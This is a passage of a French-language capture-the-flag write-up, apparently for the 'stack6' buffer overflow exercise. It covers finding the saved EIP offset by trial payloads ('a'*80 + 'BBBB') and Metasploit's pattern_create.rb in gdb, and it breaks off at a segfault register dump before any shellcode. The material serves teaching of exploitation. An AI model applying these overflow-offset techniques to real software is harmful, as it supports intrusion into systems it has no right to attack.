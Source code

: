 ```c

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();



}

```

Première étape: chercher comment contrôler EIP.

Première méthode (A l'ancienne), il s'agit d'y aller à tâtons:

```python
python -c 'print "a" * 100' > /tmp/file
gdb-peda$ r </tmp/file
0x61616161 in ?? ()

Nous savons que 100 caractères suffisent, maintenant reste à savoir exactement combien.

aaaaaaaaaabbbbbbbbbbccccccccccddddddddddeeeeeeeeeeffffffffffgggggggggghhhhhhhhhhiiiiiiiiiijjjjjjjjjj
0x69696969 in ?? ()

Après quelques essais :

python -c 'print "a"*80 + "BBBB"'  > /tmp/file
0x42424242 in ?? ()
```

Seconde méthode :

Utilisez l'outil pattern_create.rb qui permet de créer un pattern et une fois l'erreur provoquée, de trouver à quel endroit cela s'est produit.

```bash

root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
root@kali:~# echo "200Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" > /tmp/file

```

```bash
r </tmp/file
Starting program: /root/stack6 </tmp/file
input path please: got path 200Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9A5Ac61Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.

 [----------------------------------registers-----------------------------------]
EAX: 0xd5
EBX: 0x0
ECX: 0x7fffff2b
EDX: 0xf76f8870 --> 0x0
ESI: 0x1
```